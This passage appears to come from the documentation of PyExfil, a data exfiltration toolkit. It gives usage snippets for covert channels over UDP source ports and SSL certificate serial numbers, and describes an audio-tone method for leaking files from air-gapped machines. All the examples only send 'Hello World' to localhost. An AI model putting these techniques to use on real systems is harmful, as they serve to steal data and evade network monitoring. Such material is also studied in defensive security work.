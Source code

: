 ```python

# Server
from pyexfil.network.UDP_SPort import Send

key = "123456"
ip_addr = "127.0.0.1"

a = Send(key, ip_addr, dport=Send.REMOTE_UDP_PORT, wait_time=Send.DEFAULT_TIME_BETWEEN_PACKETS)
a.Sender('Hello World!')

# Client
from pyexfil.network.UDP_SPort import Broker

key = "123456"

b = Broker(key, ip_addr="0.0.0.0", local_port=Broker.REMOTE_UDP_PORT)

```

#### Certificate Exchange
This module is exploiting the SSL certificate exchange mechanism. When a new SSL connection is established, a certificate is exchanged. This module will convert data into the value of the serial number of a certificate and then use SSL connection establishement (handshake) as the means to transport the certificate. This is very useful for transmitting short messages in a covert manner. Most firewalls and proxies should enable SSL communication.

```python
# Server
from pyexfil.Comm.cert_exchange import Broker

b = Broker(key="123456", server="127.0.0.1", port=8443)
b.GetData()


# Client
from pyexfil.Comm.cert_exchange import Sender

a = Sender(key="123456", server="127.0.0.1", port=8443)
a.Send("Hello world")
```

### Physical

#### 3.5mm Jack
This module is for machines that are air-gapped from other networks and have severe hardening. It's meant to convert a file to a set of tones to be played through a 3.5mm jack and then be able to make sense of them. It also assumes that hardware devices are strictly limited and new device registration might trigger an alert. 

In this example code, we use a 16-QAM modulation scheme to encode 4 bits per symbol. We generate a random digital signal consisting of 1024 bits and reshape it into a 2D array with 4 bits per symbol. We then QAM modulate the digital signal using the qammod() function in the scipy.signal library.
